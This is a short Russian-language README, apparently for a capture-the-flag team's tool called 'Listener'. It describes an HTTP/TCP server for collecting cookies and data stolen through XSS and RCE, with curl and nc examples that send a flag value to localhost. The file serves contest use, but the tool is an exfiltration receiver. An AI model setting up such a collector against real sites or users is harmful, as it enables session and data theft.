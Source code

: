 # Listener

HTTP/TCP листенер для кражи кук, других чувствительных данных от XSS и RCE. 
## Установка
>git clone git@github.com:OmskHackers/listener.git

>docker-compose up -d

## Возможности
- Сохранение параметров в URL 
- Сохранение загружаемых файлов 
- Сохранение сырых данных передаваемых в POST запросах
- Сохранение любых сырых данных переданных на сокет сервер (1337 порт)
 ##  Как работает ?
 >curl http://localhost:4444/?FLAG1234567890=

 >curl -X POST --data "FLAG1234567890=" http://localhost:4444/

 > echo "FLAG1234567890=" | nc -q 1 localhost 1337
## TODO
- Добавить экстрактор флагов
- Оптимизировать экстрактор, чтобы не читал повторные output файлы
- Настроить возможность
- Прикрутить клиент фермы к экстрактору, чтобы автоматизировать отправку флагов
